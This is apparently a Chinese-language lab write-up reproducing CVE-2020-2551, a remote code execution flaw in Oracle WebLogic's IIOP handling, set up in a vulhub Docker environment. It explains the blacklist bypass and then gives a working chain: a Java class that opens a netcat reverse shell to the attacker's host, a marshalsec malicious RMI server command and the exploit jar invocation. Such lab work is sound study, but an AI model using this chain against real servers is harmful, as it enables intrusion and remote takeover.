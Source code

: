 ## 前言

2020年1月15日,Oracle发布了一系列的安全补丁,其中Oracle WebLogic Server产品有高危漏洞,漏洞编号CVE-2020-2551,CVSS评分9.8分,漏洞利用难度低,可基于IIOP协议执行远程代码。

经过分析这次漏洞主要原因是错误的过滤JtaTransactionManager类，JtaTransactionManager父类AbstractPlatformTransactionManager在之前的补丁里面就加入到黑名单列表了,T3协议使用的是resolveClass方法去过滤的,resolveClass方法是会读取父类的,所以T3协议这样过滤是没问题的。但是IIOP协议这块,虽然也是使用的这个黑名单列表,但不是使用resolveClass方法去判断的,这样默认只会判断本类的类名,而JtaTransactionManager类是不在黑名单列表里面的,它的父类才在黑名单列表里面,这样就可以反序列化JtaTransactionManager类了,而JtaTransactionManager类是存在jndi注入的。


##	环境搭建

直接使用vulhub中的CVE-2017-10271就可以

使用git克隆到本地

```
git clone https://github.com/vulhub/vulhub.git
```

![图片](https://static.sechelper.com/img/2023/01/07/621537352537fd4a47884ab7c6b5ec04.png)

进入对应环境

```
cd vulhub/weblogic/CVE-2017-10271
```

![image-20230107154925407](https://static.sechelper.com/img/2023/01/08/340c138dbee142c0fb0816c7abe13078.png)

启动docker漏洞环境

```
sudo docker-compose up -d
```

![image-20230107155739460](https://static.sechelper.com/img/2023/01/08/6648942ecbd2a7077c4a35b09d9759e1.png)

搭建完成以后，访问7001/console如下图所示即为搭建成功

![image-20230107160549138](https://static.sechelper.com/img/2023/01/08/651d1701610d58dac2b46ebd7c4a4dd8.png)



## 检测是否存在漏洞

`python3 CVE-2020-2551.py -u http://192.168.52.128:7001/`

![image-20230107164740702](https://static.sechelper.com/img/2023/01/08/d7ecf2be80c34722cc915bc96fbed864.png)

发现存在漏洞

## 漏洞利用

攻击机ip：192.168.0.101

靶机ip：192.168.52.128



攻击机开启监听nc -lvnp 3333

![image-20230107180523151](https://static.sechelper.com/img/2023/01/08/a08df31de398a9e0a5566b96d1852c3f.png)

编写一个exp.java文件：

```java
import java.io.IOException;
public class exp {
        static{
                try {
                        java.lang.Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","nc -e /bin/bash 192.168.0.101 3333"});
                } catch (IOException e) {
                        e.printStackTrace();
                }
        }
        public static void main(String[] args) {

        }
}
```

其中"nc -e /bin/bash 192.168.52.130 3333"是要执行的命令

然后进行编译，生成出一个exp.class文件

![image-20230107171912137](https://static.sechelper.com/img/2023/01/08/b12cef3a80a2dd9ea6d70f1e2c19065d.png)

![image-20230107171939453](https://static.sechelper.com/img/2023/01/08/e4a260250ecd3eca9695363722922255.png)

启一个web服务，需要与exp.class在同一文件夹

![image-20230107172232631](https://static.sechelper.com/img/2023/01/08/b7c42d23c26b332fbab943527c37ab21.png)

使用marshalsec起一个恶意的RMI服务

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.0.101/#exp" 1099`

![image-20230107180020082](https://static.sechelper.com/img/2023/01/08/bc7e43c3ea90a9b2e5a1b3c571ed035b.png)

然后开始进行攻击，使用命令,成功弹出shell：

```java
java -jar weblogic_CVE_2020_2551.jar 192.168.52.128 7001 rmi://192.168.0.101:1099/exp
```

![image-20230107180754385](https://static.sechelper.com/img/2023/01/08/12e1e9f7e2445d0c0f40eb4b477c1422.png)
